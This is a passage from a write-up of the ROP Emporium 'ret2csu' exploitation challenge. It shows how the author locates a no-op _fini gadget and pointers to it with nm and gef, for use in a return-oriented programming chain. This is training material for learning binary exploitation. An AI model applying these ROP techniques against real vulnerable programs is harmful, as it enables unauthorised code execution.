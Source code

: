 ```
r12: <address> -> <address of "pop rdi; ret" gadget>
```

That way when we call [r12], we will call/jump to the value stored at <address>, which will be the address of our gadget.  

Pointers are hard, and the simplest way to do this is to just take advantage of the fact that ASLR is disabled.  
But we should act like ASLR is enabled, for the sake of masochism.

So, we're going to jump to an address that has a ROP gadget. It's easiest if this ROP gadget doesn't do anything at all.  
Hmm... but since we're jumping to [r12] we need to find an address that stores the address of ROP gadget.  

Let's use what we know about universal ROP to our advantage -- let's look at all of the staticall linked functions, and try to find a ROP gadget that does pretty much nothing...  

```sh
ubuntu@ubuntu:~/ropemporium/ret2csu$ nm -a ret2csu | grep " t\|T "
0000000000400560 t deregister_tm_clones
0000000000400550 T _dl_relocate_static_pie
00000000004005d0 t __do_global_dtors_aux
00000000004006b4 t .fini
00000000004006b4 T _fini
0000000000400600 t frame_dummy
00000000004004d0 t .init
00000000004004d0 T _init
00000000004006b0 T __libc_csu_fini
0000000000400640 T __libc_csu_init
0000000000400607 T main
00000000004004f0 t .plt
0000000000400590 t register_tm_clones
0000000000400520 T _start
0000000000400520 t .text
0000000000400617 t usefulFunction
```

```asm
gef➤  disass _fini
Dump of assembler code for function _fini:
   0x00000000004006b4 <+0>:	sub    rsp,0x8
   0x00000000004006b8 <+4>:	add    rsp,0x8
   0x00000000004006bc <+8>:	ret    
End of assembler dump.
```

Okay, sweet, this gadget does nothing. We know that addresses of linked libraries are usually stored in the DYNAMIC section...  
Let's just go ahead and run a find on the address of \_fini:

```asm
gef➤  find "0x00000000004006b4"
Searching for '0x00000000004006b4' in: None ranges
Found 4 results, display max 4 items:
ret2csu : 0x4003b0 --> 0x4006b4 (<_fini>:	sub    rsp,0x8)
ret2csu : 0x400e48 --> 0x4006b4 (<_fini>:	sub    rsp,0x8)
ret2csu : 0x6003b0 --> 0x4006b4 (<_fini>:	sub    rsp,0x8)
ret2csu : 0x600e48 --> 0x4006b4 (<_fini>:	sub    rsp,0x8)
```

